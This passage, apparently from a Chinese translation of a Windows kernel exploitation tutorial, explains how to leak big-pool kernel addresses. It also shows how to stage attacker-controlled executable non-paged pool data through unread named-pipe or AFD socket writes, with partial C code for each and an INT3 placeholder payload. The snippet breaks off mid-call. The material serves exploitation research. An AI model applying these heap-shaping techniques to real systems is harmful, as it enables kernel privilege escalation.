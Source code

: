 ```
            bigPoolInfo->AllocatedInfo[i].Tag[0],
            bigPoolInfo->AllocatedInfo[i].Tag[1],
            bigPoolInfo->AllocatedInfo[i].Tag[2],
            bigPoolInfo->AllocatedInfo[i].Tag[3]);
}
 
Cleanup:
if (bigPoolInfo != NULL)
{
    RtlFreeHeap(RtlGetProcessHeap(), 0, bigPoolInfo);
}

```

0x03 池控制
=====

很明显，能够读取到这些内核态内存地址是非常有用的，但仅仅内存块地址可读还不够，那么如何才能进一步做到控制内存块中的数据呢？ 你会注意到前面讲到的技术中，有几种是可以令用户态下的攻击者分配内核对象的（如，APC reserve对象），这类的内核对象有几个域是用户可控的，并且有一个用于获取内核态内存地址的API函数。我们这里基本上也是要做同样的事情，但是不仅仅是控制内核对象的几个域，我们的目标是找到一个可以完全控制内核对象所有数据的用户API，且需要该API调用时能够触发一个“大池”分配。

这种寻找并非如听起来那么难，任何时候一个内核态元素的空间分配超过0X01中所述大小限度（大于一个内存页，即4K左右）时，“大池”分配就会被触发。因此，这个问题的难度就降低为寻找一个可以造成内核态空间分配超过4K的用户态API，且分配的数据也得是可控的。而因为Windows XP SP2以后版本的操作系统被强制内核空间不可执行，所以这种空间分配也必须要能产生可执行的内存才能符合我们的要求。

（也就是说这样的寻找必须满足三个条件：触发“大池”分配、数据可控、分配的空间可执行）

怎样能满足这样的条件……呃，两个很简单的方法会立即出现在你脑中：

```
创建一个本地Socket套接字并监听，用另外一个线程连接该套接字，然后发出一个写操作（写的数据要超过4K），但不要读。这就将导致WinSock的辅助功能驱动（AFD.SYS）在内核态下为Socket数据分配内存地址，该驱动也是著名的另一个“歇菜的”驱动。由于Windows网络栈函数都处于DISPATCH_LEVEL(IRQL 2)层，是无法分页的，AFD会触发一个非分页的内存块分配，而这一条对我们来说尤其有用！因为除了Windows 8及更高版本外，其他的Windows平台下非分页内存都是可执行的！

创建一个命名管道，然后发出一个写操作（同样数据大于4K），且不要读。这也将导致命名管道文件系统（NPFS.SYS）为管道数据分配一块非分页的内存块。（原因同样是因为NPFS缓冲区操作位于DISPATCH_LEVEL）。

```

总体上说，第二种方法是更简单的，只需要几行代码就可以完成，并且与Socket操作相比管道操作更加隐蔽。需要着重指出的是NPFS会在我们自己的缓冲区前面加上一个包含其自身内联头部的前缀，该前缀被称为DATA_ENTRY。NPFS头部的大小会随版本不同而略有差异（XP-、2003、Windows 8+各有不同）。

我已经找到一种最省力的方法来实现偏移的处理，可以通过在用户态缓冲区中安排好相应的偏移，而省去考虑最终内核态载荷头部的偏移问题。记住一点，这里所谈到的技术其关键是分配一个大于一页的内存，以触发“大池”分配。

下面这段小程序已经完善地考虑了上述的所有问题和需求，执行后能够产生我们预计的效果。

```
UCHAR payLoad[PAGE_SIZE - 0x1C + 44];
 
//
// Fill the first page with 0x41414141, and the next page
// with INT3's (simulating our payload). On x86 Windows 7
// the size of a DATA_ENTRY is 28 bytes (0x1C).
//
RtlFillMemory(payLoad,  PAGE_SIZE - 0x1C,     0x41);
RtlFillMemory(payLoad + PAGE_SIZE - 0x1C, 44, 0xCC);
 
//
// Write the data into the kernel
//
res = CreatePipe(&readPipe,
                 &writePipe,
                 NULL,
                 sizeof(payLoad));
if (res == FALSE) goto Cleanup;
res = WriteFile(writePipe,
                payLoad,
                sizeof(payLoad),
```